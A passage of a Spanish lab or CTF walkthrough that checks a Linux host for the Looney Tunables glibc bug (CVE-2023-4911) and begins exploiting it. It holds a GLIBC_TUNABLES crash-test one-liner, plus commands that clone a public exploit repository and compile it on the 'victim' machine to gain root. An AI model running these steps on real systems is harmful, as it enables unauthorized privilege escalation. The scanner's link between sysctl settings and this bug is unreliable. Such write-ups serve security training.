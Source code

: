 ```bash
if [ $vulnerable -eq 1 ]; then
  echo -e "\n⚠️ Tu sistema tiene configuraciones inseguras (Looney Tunables vulnerables)."
else
  echo -e "\n✅ Tu sistema está configurado de forma segura para estos parámetros."
fi
```

Ahora lo ejecutaremos de esta forma:

```shell
bash scann_Looney_Tunables.sh
```

Info:

```
⚠  net.ipv4.conf.all.accept_redirects = 1  (Inseguro, debería ser 0)
✅ kernel.dmesg_restrict = 1 (Seguro)
✅ kernel.yama.ptrace_scope = 1 (Seguro)
⚠  kernel.unprivileged_bpf_disabled = 2  (Inseguro, debería ser 1)
⚠  fs.suid_dumpable = 2  (Inseguro, debería ser 0)
✅ net.ipv4.conf.all.accept_source_route = 0 (Seguro)
⚠  net.ipv4.conf.all.send_redirects = 1  (Inseguro, debería ser 0)

⚠ Tu sistema tiene configuraciones inseguras (Looney Tunables vulnerables).
```

Veremos que efectivamente es vulnerable, por lo que vamos a descargarnos un `exploit` para aprovechar esto mismo.

URL = [Exploit Looney Tunables](https://github.com/hadrian3689/looney-tunables-CVE-2023-4911)

En este `GitHub` podremos ver que hay otra forma de comprobar si es vulnerable o no a este `exploit` y es ejecutando el siguiente comando:

```shell
env -i "GLIBC_TUNABLES=glibc.malloc.mxfast=glibc.malloc.mxfast=A" "Z=`printf '%08192x' 1`" /usr/bin/su --help
```

Info:

```
Segmentation fault (core dumped)
```

Por lo que vemos si lo es, ya que nos esta diciendo que se salio de la memoria dicha informacion y esto se debe a que se puede realizar un `Buffer Overflow` para obtener privilegios de `root`.

Vamos a descargarnos el repositorio, ya que la maquina victima tiene `git`.

```shell
git clone https://github.com/hadrian3689/looney-tunables-CVE-2023-4911.git
```

Una vez echo esto, vamos a ejecutar lo siguiente de esta forma ordenada.

```shell
chmod +x libc.py
python3 libc.py
gcc exp.c -o exp
```
